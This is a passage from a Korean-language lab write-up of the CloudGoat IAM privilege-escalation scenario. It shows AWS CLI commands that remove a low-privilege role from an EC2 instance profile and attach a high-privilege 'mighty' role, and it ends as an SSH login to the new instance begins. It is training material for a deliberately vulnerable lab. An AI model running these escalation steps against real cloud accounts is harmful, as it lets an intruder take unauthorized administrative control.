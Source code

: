 ```json
            }
        }
    ],
    "OwnerId": "712987748923",
    "ReservationId": "r-04495e19ef68a6678"
}
```

### 최고 관리자 IAM Instance 프로필을 새로운 EC2 Instance로 변경

- 앞서 새로운 EC2 Instance를 생성했습니다. 인스턴스 Rule `cg-ec2-meek-instance-profile-/cloud-goat-id` 은 여전히 권한이 낮은 IAM Rule이기 때문에 이를 제거하고 인스턴스 프로파일에 IAM 역할을 추가하였습니다.

```json
aws iam remove-role-from-instance-profile \
    --instance-profile-name cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgidmbi301d8zu \
    --role-name cg-ec2-meek-role-iam_privesc_by_attachment_cgidmbi301d8zu --profile kerrigan

aws iam add-role-to-instance-profile \
    --instance-profile-name cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgidmbi301d8zu \
    --role-name cg-ec2-mighty-role-iam_privesc_by_attachment_cgidmbi301d8zu --profile kerrigan

aws iam remove-role-from-instance-profile \
    --instance-profile-name cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID> \
    --role-name cg-ec2-meek-role-<CLOUD_GOAT_ID> --profile kerrigan

aws iam add-role-to-instance-profile \
    --instance-profile-name cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID> \
    --role-name cg-ec2-mighty-role-<CLOUD_GOAT_ID> --profile kerrigan

"InstanceProfileName": "cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgidmbi301d8zu",
"RoleName": "cg-ec2-meek-role-iam_privesc_by_attachment_cgidmbi301d8zu",

cg-ec2-mighty-role-iam_privesc_by_attachment_cgidmbi301d8zu
```

### SSH를 통해 새로운 EC2에 액세스

- 앞서 새로 생성된 EC2 인스턴스에 SSH로 접속해 보겠습니다. 미리 만들어 두었던 SSH 개인 키에 대한 권한 을 변경해주었습니다.

![](./15.png)
